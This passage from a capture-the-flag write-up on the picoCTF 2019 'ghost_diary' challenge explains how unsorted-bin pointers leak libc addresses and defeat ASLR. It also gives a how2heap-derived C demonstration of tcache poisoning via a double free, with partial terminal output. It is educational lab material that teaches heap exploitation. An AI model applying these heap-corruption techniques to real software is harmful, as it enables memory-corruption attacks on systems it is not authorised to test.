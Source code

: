 This is very important. If we can somehow read this pointer (using a use-after-free, or overlapped chunks, by any means), then we have an information leak that we can use to find the base address of libc. This defeats both PIE and ASLR in one shot. This characteristic of the unsorted bin is used in the exploit for this challenge.

#### The Tcache Poisoning Attack

Given a double free vulnerability, we can get `malloc` to return an arbitrary pointer which lets us have an arbitrary read/write primitive. It abuses the fact that a double free will cause two of the same chunk to be inserted into the tcache bin, meaning that this chunk will have its `fd` pointer pointing to itself.

This is shown below, as well as utilized in our exploit. Credits to shellphish's [how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.26/tcache_dup.c) for part of the code:
```c
#include <stdio.h>
#include <stdlib.h>

int *arbitrary_pointer = NULL;

int main()
{
    int *our_pointer = NULL;

    fprintf(stderr, "This file demonstrates a simple double-free attack with tcache.\n\n");
    fprintf(stderr, "We want a chunk on top of the global variable arbitrary_pointer at %p\n\n", &arbitrary_pointer);

    fprintf(stderr, "Allocating buffer.\n");
    int *a = malloc(8);

    fprintf(stderr, "malloc(8): %p\n", a);
    fprintf(stderr, "Freeing twice...\n");
    free(a);
    free(a);

    fprintf(stderr, "Now the free list has [ %p, %p ].\n\n", a, a);

    fprintf(stderr, "Next we allocate one of the chunks\n\n");
    a = malloc(8);

    fprintf(stderr, "Now the free list has [ %p ].\n", a);
    fprintf(stderr, "Now we overwrite a's fd pointer to the address of arbitrary_pointer\n");
    a[0] = (unsigned long long) &arbitrary_pointer;

    fprintf(stderr, "And now, the free list has [ %p %p ].\n\n", a, &arbitrary_pointer);
    fprintf(stderr, "Two more mallocs, and the second malloc gives us a chunk right on top of arbitrary_pointer\n\n");

    malloc(8);
    our_pointer = malloc(8);

    fprintf(stderr, "arbitrary_pointer: %p, our_pointer: %p\n", &arbitrary_pointer, our_pointer);

    return 0;
}

```
```
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/picoctf-2019/ghost_diary$ gcc a.c
vagrant@ubuntu-bionic:/ctf/pwn-and-rev/picoctf-2019/ghost_diary$ ./a.out
This file demonstrates a simple double-free attack with tcache.

We want a chunk on top of the global variable arbitrary_pointer at 0x555e1efe1030

```